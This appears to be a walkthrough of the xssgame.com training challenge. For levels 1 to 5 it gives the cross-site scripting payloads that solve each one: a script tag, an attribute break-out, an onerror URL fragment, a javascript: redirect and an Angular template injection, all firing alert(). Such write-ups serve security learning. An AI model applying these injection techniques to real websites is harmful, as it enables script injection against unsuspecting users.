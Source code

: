 # [xssgame.com](http://xssgame.com/)

## Level 1

The input is embedded as-is into the page that'll load next.
high
```
<script>alert()</script>
```

## Level 2

The input becomes the argument of `onload="startTimer(...);"` like this: `onload="startTime(' + input + ');"`.

```
3');alert('
```

This works because `3');` correctly terminates the original function call, `alert('` starts a new call which ends up with "ending" of the original function call.

## Level 3

Entering the following URL into the search bar works.

```
http://www.xssgame.com/f/u0hrDTsXmyVJ/#'onerror='alert()'
```

Sometimes it told me for this and similar inputs that this is wrong, something about absolute URLs, etc., but it accepted it.
Try switching from single to double apostrophes, use `onload` instead and supply input for a working `src` attribute, or try to close of the `img` tag.

## Level 4

There's an intermediate navigation with sets `window.location` to a query string parameter's value.

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:alert()
```

## Level 5

The page is modified before Angular processing kicks in.
The `utm_term` query string parameter's value is injected into the value of `<input name="utm_term">`.

```
http://www.xssgame.com/f/JFTG_t7t3N-P/?utm_term={{alert()}}
```
